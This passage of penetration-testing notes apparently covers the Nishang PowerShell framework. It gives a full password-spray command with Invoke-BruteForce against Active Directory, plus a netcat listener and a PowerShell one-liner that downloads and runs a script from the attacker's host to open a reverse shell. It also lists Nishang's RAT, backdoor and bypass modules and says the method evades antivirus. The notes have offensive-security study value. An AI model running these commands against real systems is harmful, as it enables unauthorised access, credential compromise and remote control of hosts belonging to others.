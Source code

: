 > There is plenty more in Nishang **gather** modules
moreover = https://github.com/samratashok/nishang#gather

### Invoke-BruteForce
We can use this to brute force Active Directory accounts, SQL Server, Web or FTP servers.
Invoke-BruteForce is great tool For executing a password spray attack against Active Directory
Just ensure that your password list contains a single password.

→ Get-Help Invoke-BruteForce

```powershell
Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pwds.txt -Service ActiveDirectory -StopOnSuccess -Verbose
```

### Reverse Shell - Invoke-PowerShellTcp 
provides a way to obtain a reverse PowerShell from our target host back to a netcat listener
the traffic is traversing the wire in cleartext between attacker and target.
although a great and undetected by AV method to get a reverse shell from PowerShell, over-the-wire (SIEM) may pick up some chatter if that type of solution has been implemented within an organization.

- Open a listener in the attacker:

```bash
nc -lvnp 4444
```
- Execute the command in the target to grab the file and get the reverse shell:

```powershell
powershell.exe -Command iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress <kali ip> -Port 4444
```


- There is a lot more shells available in Nishang framework.
// bind, reverse, ICMP, UDP, RAT, etc
```powershell
Invoke-JSRatRegsvr.ps1
Invoke-JSRatRundll.ps1
Invoke-PoshRatHttp.ps1
Invoke-PoshRatHttps.ps1
Invoke-PowerShellIcmp.ps1
Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcpOneLine.ps1
Invoke-PowerShellTcpOneLineBind.ps1
Invoke-PowerShellUdp.ps1
Invoke-PowerShellUdpOneLine.ps1
Invoke-PsGcat.ps1
Invoke-PsGcatAgent.ps1
Remove-PoshRat.ps1
```


- Nishang has other categories modules as well:

```powershell
ActiveDirectory
Antak-WebShell
Backdoors
Bypass
Client
Escalation
Execution
Gather
MITM
Misc
Pivot
Prasadhak
```